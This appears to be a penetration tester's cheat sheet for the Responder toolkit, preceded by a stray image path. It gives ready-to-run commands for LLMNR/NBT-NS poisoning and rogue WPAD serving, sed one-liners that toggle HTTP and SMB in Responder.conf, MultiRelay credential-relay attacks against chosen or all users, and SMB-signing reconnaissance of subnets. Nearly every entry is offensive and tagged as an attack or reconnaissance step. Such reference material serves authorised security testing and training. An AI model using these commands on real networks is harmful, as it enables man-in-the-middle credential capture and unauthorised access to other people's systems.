 # responder

% responder, LLMNR, NBT-NS, Poisoning, man in the middle

## responder launch
#platform/linux #target/remote #cat/ATTACK/MITM 
```
responder –I eth0
```

## responder launch - analyze mode (no poisoning)
#platform/linux #target/remote #cat/RECON 
```
responder –I eth0 -A
```

## responder launch with wpad file 
#platform/linux #target/remote #cat/ATTACK/MITM 
```
responder -I eth0 --wpad
```

## responder http on
#platform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = Off/HTTP = On/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder http off
#platform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = On/HTTP = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder smb on
#platform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = Off/SMB = On/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```

## responder smb off
#platform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = On/SMB = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```

## multirelay attack - user filtered (previous disable HTTP and SMB in Responder.conf)
#platform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u <user1> <user2>
```

## multirelay attack - all user (previous disable HTTP and SMB in Responder.conf)
#platform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u ALL
```

## runfinger - Responder-related utility which will finger a single IP address or an IP subnet and will reveal if a target requires SMB Signing or not.
#platform/linux #target/remote #cat/RECON 
```
runfinger -i <network_range>
```
